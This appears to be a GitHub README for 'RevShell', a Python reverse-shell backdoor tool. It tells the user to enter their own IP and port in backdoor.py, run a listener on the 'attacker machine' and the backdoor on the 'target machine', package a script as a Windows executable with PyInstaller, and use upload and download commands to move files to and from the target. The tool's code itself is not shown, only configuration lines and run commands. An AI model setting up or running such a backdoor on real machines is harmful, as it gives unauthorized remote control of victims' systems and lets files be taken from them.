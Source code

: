 # RevShell
A tool to grant access to a target machine via a reverse shell

## Instructions
Editing the client.py file 

Fill in the host in
```
backdoor .py
my_backdoor = Backdoor("127.0.0.1", 4444)
# you need to fill in the destination (Your own) IP address here and a port of your choice
# the backdoor will connect back to the provided IP

listener_single_client.py
my_listener = Listener("127.0.0.1", 4444)
# you need to fill in the destination (Your own) IP address here and a port of your choice 
# listener will listen for connections coming to the provided IP
```
Run the server script on the attacker machine using

    python3 listener_single_client.py
    
Run the client script on the target machine

    python3 backdoor.py

## Creating Windows executable (Pyinstaller Method)

install and Use Pyinstaller
```
pip3 install pyinstaller
pyinstaller --onefile listener_single_client.py
```
The executable will be found in the ```dist``` folder
    
## Using the scripts

Run the listener first to listen to incoming connections

Once the backdoor sends a connection request, you'll get a backdoor

#### Special Commands
```
upload - will upload a file from your device to target device
download - will download a file from target device to your device
quit / exit - any of these commands will close the connection and exit the programs
```




